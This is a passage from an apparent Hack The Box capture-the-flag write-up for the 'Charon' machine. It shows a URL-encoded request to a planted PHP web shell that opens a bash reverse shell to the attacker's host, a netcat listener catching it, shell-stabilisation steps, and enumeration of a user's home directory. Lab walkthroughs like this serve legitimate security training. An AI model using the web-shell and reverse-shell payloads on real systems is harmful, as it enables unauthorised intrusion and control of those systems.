 and I'm able to execute commands remotely

![](assets/img/htb/charon/command_1.png)

sending a request to the webshell allows me to get a reverse shell

```
http://10.10.10.31/images/shell.php?x=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/10.10.14.13/9001%200%3E%261%22
```

```bash
$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.13] from (UNKNOWN) [10.10.10.31] 50430
bash: cannot set terminal process group (1357): Inappropriate ioctl for device
bash: no job control in this shell
www-data@charon:/var/www/html/freeeze/images$ 
```

To stabilize the shell I do 

- script /dev/null -c bash
- ctrl z
- stty raw -echo ; fg
- reset xterm
- export TERM=xterm
- stty rows 39 columns 155 (change this to your terminal size, check stty size to know your terminal dimensions)

## shell as decoder

the user www-data is able to list and read some files from /home/decoder 

``` shell
www-data@charon:/home/decoder$ ls
decoder.pub  pass.crypt  user.txt
www-data@charon:/home/decoder$ cat decoder.pub 
-----BEGIN PUBLIC KEY-----
MDwwDQYJKoZIhvcNAQEBBQADKwAwKAIhALxHhYGPVMYmx3vzJbPPAEa10NETXrV3
mI9wJizmFJhrAgMBAAE=
-----END PUBLIC KEY-----
www-data@charon:/home/decoder$ ls -l  
total 12
-rw-r--r-- 1 decoder freeeze 138 Jun 23  2017 decoder.pub
-rw-r--r-- 1 decoder freeeze  32 Jun 23  2017 pass.crypt
-r-------- 1 decoder freeeze  33 Aug 21 17:18 user.txt
www-data@charon:/home/decoder$ 
```
